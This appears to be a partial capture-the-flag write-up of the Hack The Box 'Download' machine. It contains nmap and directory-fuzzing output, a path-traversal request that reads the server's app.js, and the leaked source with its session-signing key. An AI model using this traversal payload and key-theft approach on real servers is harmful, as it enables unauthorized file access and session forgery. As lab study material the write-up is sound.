








## Network Enumeration:

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 cc:f1:63:46:e6:7a:0a:b8:ac:83:be:29:0f:d6:3f:09 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCuWCP0vWvijGHDhspMXZbTI7QnJUQp0r4tPbhbRxRgOJ+9BOh6GU7XOL3oL0ZCrcaT5UjnaoXlsWBNiP06QktmTwlyq4OnTjQfAqsgmv1EBoLGjMFkipeAFYbs5iN9heQ2YCrwaTxqksUY4WwrOKqnpGqHqfYRUf5hYOrRNDKuauVt+htRDt+DDkbcIHv8RNmZvffnhjKpzbYlJND/cHBMzADSKNO+01ZhQwqIj1Waq1DIzKHhAZXa8Dx7yQ1eV0Mfgy0FfXKz/79j2bCRSEIDAONCyIpVo/EYOwi7wY8DG3jZdId8MPrXvXDUiu4qMaRpSTHqSxchMrANoELluOKRwKX+jo4ieDLQ+8ds871tgE/4KVPDkAQesQSNB3KNlaUT40BdJvtcBDZrSSgqGIv9nUwfRfnFLtpnCIE7GI3eUi0AaLYsGzodmZM6xYk4iZJMnw9oNSrmVhBCiKcz/LM9IZytMlWA8jHVl51v19YjYn1csPEbZR3nXddcyN1A/qc=
|   256 2c:99:b4:b1:97:7a:8b:86:6d:37:c9:13:61:9f:bc:ff (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDtcQEndNphvT9KpiBavbuC83D+p+RJ179gV8yI27QUxA9L/cy2s6B0GiEFpeyuvYQt+pRe5QpdYxwJzBkgrQj8=
|   256 e6:ff:77:94:12:40:7b:06:a2:97:7a:de:14:94:5b:ae (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAII/jAu2c8ySXaISmaxqbGzrYSe1+N5SwuHYYYe/yCrVJ
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://download.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 2.6.32 (94%), Linux 5.0 - 5.5 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94%E=4%D=8/21%OT=22%CT=%CU=40474%PV=Y%DS=2%DC=T%G=N%TM=64E36373%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M53AST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST11NW7%O6=M53AST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53ANNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 30.077 days (since Sat Jul 22 13:25:17 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As we can see, the scanner identified a possible vhost answering on dowload.htb so let's add it to ourself and check what can we do here!

* * *

## SSH:

As usual the SSH won't be our way in since we don't have any valid credentials and we will come back later. Bruteforce won't be part of intended way.

* * *

## HTTP:

As usual I will start by enumerating for possible VHOST on the machine:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://download.htb/ -H "Host:FUZZ.download.htb" -fl 8

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://download.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.download.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response lines: 8
________________________________________________

:: Progress: [19966/19966] :: Job [1/1] :: 829 req/sec :: Duration: [0:00:27] :: Errors: 0 ::
```

Nothing so far but what about the hidden web directories?

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://download.htb/ -H "Host:FUZZ.download.htb" -fl 8

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://download.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.download.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response lines: 8
________________________________________________

:: Progress: [19966/19966] :: Job [1/1] :: 829 req/sec :: Duration: [0:00:27] :: Errors: 0 ::

┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dirsearch -u "http://download.htb/"

  _|. _ _  _  _  _ _|_    v0.4.3.post1                                                                                                                                                                                                                       
 (_||| _) (/_(_|| (_| )                                                                                                                                                                                                                                      
                                                                                                                                                                                                                                                             
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/reports/http_download.htb/__23-08-21_15-25-45.txt

Target: http://download.htb/

[15:25:45] Starting:                                                                                                                                                                                                                                         
[15:25:58] 200 -    3KB - /auth/login                                       
[15:26:08] 302 -   33B  - /home  ->  /auth/login                            
[15:26:30] 301 -  179B  - /static  ->  /static/                             
                                                                             
Task Completed
```

Nothing strange here. So checking the used technologies we can see:



Now we know there is a upload function:



And a login/register function. I will start by creating a new user and checking what can we do via Burpsuite!





Now we can try to upload a file and check what can we eventually do here?



But then I noticed if we are logged in we can mark if file is private or not:



Now here i had to check for tips and apparently the download function is susceptible to LFI:

```
http://download.htb/files/view/../app.js
```

We can see that a typical NodeJS app have this structure:



Which means that a folder back in views should contain a file names app.js. The LFI must be URL encoded!



```JS
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Thu, 24 Aug 2023 09:44:32 GMT
Content-Type: application/javascript; charset=UTF-8
Content-Length: 2168
Connection: close
X-Powered-By: Express
Content-Disposition: attachment; filename="Unknown"
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Fri, 21 Apr 2023 17:11:40 GMT
ETag: W/"878-187a4ccd572"

"use strict";
var __importDefault = (this && this.__importDefault) || function (mod) {
    return (mod && mod.__esModule) ? mod : { "default": mod };
};
Object.defineProperty(exports, "__esModule", { value: true });
const express_1 = __importDefault(require("express"));
const nunjucks_1 = __importDefault(require("nunjucks"));
const path_1 = __importDefault(require("path"));
const cookie_parser_1 = __importDefault(require("cookie-parser"));
const cookie_session_1 = __importDefault(require("cookie-session"));
const flash_1 = __importDefault(require("./middleware/flash"));
const auth_1 = __importDefault(require("./routers/auth"));
const files_1 = __importDefault(require("./routers/files"));
const home_1 = __importDefault(require("./routers/home"));
const client_1 = require("@prisma/client");
const app = (0, express_1.default)();
const port = 3000;
const client = new client_1.PrismaClient();
const env = nunjucks_1.default.configure(path_1.default.join(__dirname, "views"), {
    autoescape: true,
    express: app,
    noCache: true,
});
app.use((0, cookie_session_1.default)({
    name: "download_session",
    keys: ["8929874489719802418902487651347865819634518936754"],
    maxAge: 7 * 24 * 60 * 60 * 1000,
}));
app.use(flash_1.default);
app.use(express_1.default.urlencoded({ extended: false }));
app.use((0, cookie_parser_1.default)());
app.use("/static", express_1.default.static(path_1.default.join(__dirname, "static")));
app.get("/", (req, res) => {
    res.render("index.njk");
});
app.use("/files", files_1.default);
app.use("/auth", auth_1.default);
app.use("/home", home_1.default);
app.use("*", (req, res) => {
    res.render("error.njk", { statusCode: 404 });
});
app.listen(port, process.env.NODE_ENV === "production" ? "127.0.0.1" : "0.0.0.0", () => {
    console.log("Listening on ", port);
    if (process.env.NODE_ENV === "production") {
        setTimeout(async () => {
            await client.$executeRawUnsafe(`COPY (SELECT "User".username, sum("File".size) FROM "User" INNER JOIN "File" ON "File"."authorId" = "User"."id" GROUP BY "User".username) TO '/var/backups/fileusages.csv' WITH (FORMAT csv);`);
        }, 300000);
    }
});
```

At the end we can see a connection to the internal PROD DB.